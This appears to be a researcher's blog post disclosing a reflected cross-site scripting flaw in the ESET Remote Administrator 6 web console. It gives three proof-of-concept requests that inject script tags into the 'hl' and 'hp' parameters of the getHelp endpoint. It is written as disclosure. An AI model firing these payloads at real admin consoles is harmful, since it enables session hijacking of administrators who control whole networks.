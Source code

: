 ```yaml
---
layout: post
title:  "Cross-Site Scripting (XSS) in ESET Remote Administrator"
date:   2019-01-21 03:43:45 +0700
categories: [cve]
---
```

I found that XSS vulnerabilities during the pentest back in 2016, but never reported it to the vendor. According to exloit-db.com/search or cxsecurity.com/search this has never been reported, so I'm catching up now in 2019 with old stuff.
cvedetails.com websites doesn't mention it https://www.cvedetails.com/vulnerability-list/vendor_id-8861/product_id-16877/Eset-Remote-Administrator.html. It appears, that issue might have been internally patched.
Mitre website also mentioned only one XSS back from 2009, see https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=Eset+Remote+Administrator

Vendor: ESET, LLC, d/b/a ESET North America
Product: ESET Remote Administrator
Version affected: 6

#### Product description:
ESET Remote Administrator allows to oversee the entire network, including workstations, servers and smartphones from a single point. It can be installed on Windows as well as Linux servers and also comes as a Virtual Appliance. It handles
communication with agents, and collects and stores application data in the database.

#### Cross-Site Scripting, Reflected
* CVE: CVE-2019-xxxx
* CWE: CWE-79


A Cross Site Scripting vulnerability exists in ESET Remote Administrator hl, hp parameters. It is possible to inject arbitrary JavaScript into requests which are ultimately executed by the user browser.


## Proof of Concept 1
{% highlight ruby %}
GET /era/webconsole/getHelp?hl=en-US&hp=fs_login_screen.htm"/><script>alert(document.cookie)</script> HTTP/1.1
Accept: */*
Accept-Language: en-US
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; Trident/7.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E)
Host: a.b.c.d
Connection: Keep-Alive
Cookie: JSESSIONID=02EB9FB09F74291DF91AE98411F9ECAF
{% endhighlight %}

## Proof of Concept 2
{% highlight ruby %}
GET /era/webconsole/getHelp?hl=en-US"/><script>alert('xss')</script>&hp=fs_login_screen.htm HTTP/1.1
Accept: */*
Accept-Language: en-US
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; Trident/7.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E)
Host: a.b.c.d
Connection: Keep-Alive
Cookie: JSESSIONID=02EB9FB09F74291DF91AE98411F9ECAF
{% endhighlight %}

## Proof of Concept 3
{% highlight ruby %}
GET /era/webconsole/getHelp?hl="><script>alert('xss')</script> HTTP/1.1
Accept: */*
Accept-Language: en-US
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; Trident/7.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E)
Host: a.b.c.d
Connection: Keep-Alive
Cookie: JSESSIONID=02EB9FB09F74291DF91AE98411F9ECAF
{% endhighlight %}

#### References:
1. OWASP - https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)
2. https://www.eset.com/au/business/remote-management/remote-administrator/
3. Download the latest trial version - https://support.eset.com/kb6114/?locale=en_US&viewlocale=en_US
